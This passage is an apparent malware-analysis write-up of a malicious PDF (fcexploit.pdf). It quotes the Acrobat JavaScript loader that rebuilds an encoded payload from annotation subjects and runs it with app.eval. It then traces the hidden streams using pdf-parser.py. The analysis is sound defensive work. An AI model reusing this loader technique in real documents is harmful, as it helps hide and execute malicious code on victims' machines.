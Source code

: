 ```javascript
        encodedPayloadPart1 = annots[1].subject;
        encodedPayload = encodedPayloadPart1.replace(/X_17844743X_170987743/g, "%");
        encodedPayloadPart2 = annots[0].subject;
        encodedPayload += encodedPayloadPart2.replace(/89af50d/g, "%");
        encodedPayload = encodedPayload.replace(/\n/, "");
        encodedPayload = encodedPayload.replace(/\r/, "");
        decodedPayload = unescape(encodedPayload);
        app.eval(decodedPayload)
    */
}
```
This isn't simple JavaScript, it makes use of Adobe Acrobat specific JavaScript objects and methods to refer to the currently loaded document (app.doc), to identify any "annotations" within this document (syncAnnotScan), to access the first and second annotations (getAnnots), to assign it to variables, and finally to eval (run) the code within these variables.
To retrieve the encoded payload, I needed to first retrieve the streams involved, for that I used `pdf-parser.py` with `-a` flag to find the annotations objects:
```s
remnux@remnux:~/Desktop/c31-Malicious-Portable$ pdf-parser.py -a fcexploit.pdf | grep Annot
 /Annot 3: 6, 8, 24 
```
We can clearly see that the objects involved inside the payload are object 6 and 8, after analyze them we can see that contain just a reference to an object filtered stream, respectively object 7 and 9:
```s
remnux@remnux:~/Desktop/c31-Malicious-Portable$ pdf-parser.py -o 6 fcexploit.pdf
obj 6 0
 Type: /Annot
 Referencing: 7 0 R
  <<
    /Type /Annot
    /Subtype /Text
    /Name /Comment
    /Rect [ 200 250 300 320 ]
    /Subj 7 0 R
  >>
remnux@remnux:~/Desktop/c31-Malicious-Portable$ pdf-parser.py -o 7 fcexploit.pdf
obj 7 0
 Type: 
 Referencing: 
 Contains stream
  <<
    /Length 8714
    /Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]
  >>
remnux@remnux:~/Desktop/c31-Malicious-Portable$ pdf-parser.py -o 8 fcexploit.pdf
obj 8 0
 Type: /Annot
 Referencing: 9 0 R
  <<
    /Type /Annot
    /Subtype /Text
    /Name /Comment
    /Rect [100 180 300 210 ]
    /Subj 9 0 R
  >>
remnux@remnux:~/Desktop/c31-Malicious-Portable$ pdf-parser.py -o 9 fcexploit.pdf
obj 9 0
 Type: 
 Referencing: 
 Contains stream
  <<
    /Length 10522
    /Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]
```